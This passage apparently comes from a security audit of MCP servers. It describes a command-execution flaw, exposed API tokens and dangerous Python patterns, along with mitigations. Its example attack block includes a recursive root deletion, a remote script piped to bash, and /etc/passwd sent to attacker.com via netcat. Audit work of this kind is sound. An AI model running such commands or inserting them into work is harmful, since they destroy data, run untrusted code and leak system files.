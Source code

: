 **Exploitation Scenario**:
```bash
# Potential malicious commands through MCP protocol:
rm -rf / --no-preserve-root
curl malicious-site.com/malware | bash
sudo passwd root
cat /etc/passwd | nc attacker.com 4444
```

**Impact Assessment**:
- **System Compromise**: Complete control over host system
- **Data Exfiltration**: Access to all user and system files
- **Privilege Escalation**: Potential for root access
- **Lateral Movement**: Access to network resources
- **Service Disruption**: Ability to disable critical services

**Immediate Mitigation Steps**:
1. **DISABLE** BashGod server until security controls implemented
2. **IMPLEMENT** containerized execution environment
3. **DEPLOY** command whitelist validation
4. **ADD** comprehensive audit logging for all commands

### HIGH SEVERITY VULNERABILITIES (66 Found)

#### Configuration Security Failures (Multiple Instances)
**Pattern**: Hardcoded credentials in MCP server configurations

**Affected Servers**:
- brave-search: BRAVE_API_KEY exposed in configuration
- slack: SLACK_BOT_TOKEN placeholder visible
- github: GITHUB_TOKEN configuration exposed

**Security Impact**:
- **Credential Theft**: API keys exposed in version control
- **Unauthorized Access**: Potential abuse of external services
- **Service Disruption**: API rate limiting and account suspension
- **Compliance Violation**: PCI-DSS, SOX compliance failures

#### Source Code Security Issues (Multiple Instances)
**Pattern**: Dangerous programming patterns in MCP server implementations

**Dangerous Code Patterns Identified**:
```python
# Command injection vulnerabilities
subprocess.call(user_input, shell=True)
os.system(untrusted_data)
eval(user_provided_code)
exec(dynamic_code)

# Deserialization vulnerabilities  
pickle.loads(untrusted_data)
yaml.load(user_input)

# File system vulnerabilities
open(user_path, 'w')
```

---